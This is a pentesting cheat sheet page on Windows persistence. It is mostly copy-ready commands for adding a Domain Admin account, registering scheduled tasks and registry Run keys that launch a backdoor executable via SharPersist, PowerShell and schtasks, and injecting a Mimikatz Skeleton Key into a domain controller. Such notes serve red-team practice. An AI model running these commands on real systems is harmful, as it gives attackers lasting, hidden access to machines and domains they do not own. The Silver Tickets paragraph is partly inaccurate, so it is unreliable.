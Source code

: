 # Windows

## Windows

3 good guides:

{% embed url="https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-1-microsoft-office/" %}

{% embed url="https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-2-com-hijacking/" %}

{% embed url="https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-3-wmi-event-subscription/" %}

### Add User

Commands: 

`net user "username" "password" /ADD` 

`net group "Domain Admins" %username% /DOMAIN /ADD` 

Change user password 

`net user USERNAME *` 

### Scheduled task

#### SharpPresist: 

[https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist) 

Create a Scheduled task: 

`Execute-assembly ~/Downloads/SharPersist.exe -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add -o hourly` 

Or 

`SharPersist -t schtask -c "C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe" -a "C:\Users\John\msbuild.csproj" -n "Test" -m add -o hourly` 

Delete a Scheduled task: 

`SharPersist -t schtask -n "Test" -m remove` 

#### PowerShell 

```text
PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe" 
PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta" 
PS C:\> $P = New-ScheduledTaskPrincipal "Rasta" 
PS C:\> $S = New-ScheduledTaskSettingsSet 
PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S 
PS C:\> Register-ScheduledTask Backdoor -InputObject $D 
```

#### Command Line 

`shell schtasks /create /tn Test /tr "c:\windows\system32\cmd.exe /c c:\Users\JOHN\Downloads\backdoor.exe" /sc onlogon /ru System` 

### Registry Key

#### SharpPresist: 

[https://github.com/fireeye/SharPersist](https://github.com/fireeye/SharPersist) 

Create a Registry Key: 

`SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add` 

Delete a Registry Key: 

`SharPersist -t reg -k "hkcurun" -v "Test Stuff" -m remove` 

#### Command Line 

`shell reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Test /t REG_SZ /d "C:\Windows\System32\cmd.exe"` 

Delete: 

`reg delete  Registry_key_path /v Registry_value_name` 

### Accessibility Features

The accessibility features provide additional options \(on screen keyboards, magnifier, screen reading etc.\) that could assist people with disabilities to use Windows operating systems easier. However, this functionality can be abused to achieve persistence on a host that RDP is enabled and Administrator level privileges have been obtained. This technique touches the disk, or modification of the registry is required to execute a stored remotely payload. 

{% embed url="https://pentestlab.blog/2019/11/13/persistence-accessibility-features/" %}

### Silver Tickets

Computers change their account passwords every 30 days, but this is initialized by the client, not Active Directory. extract the host computer account hash, set a specific registry key, and you can regain access indefinitely. 

### Skeleton Key

The method injects itself into LSASS and creates a master password that will work for any account in the domain.

* The Skeleton Key only works for Kerberos RC4 encryption
* The Skeleton Key is a backdoor that runs on the Domain Controller \(in memory\) allows single password \(the skeleton password\) that can be used to log on to any account;

Run it on a DC using Mimikatz:

```text
privilege::debug
misc::skeleton
```

[https://pentestlab.blog/2018/04/10/skeleton-key/](https://pentestlab.blog/2018/04/10/skeleton-key/)

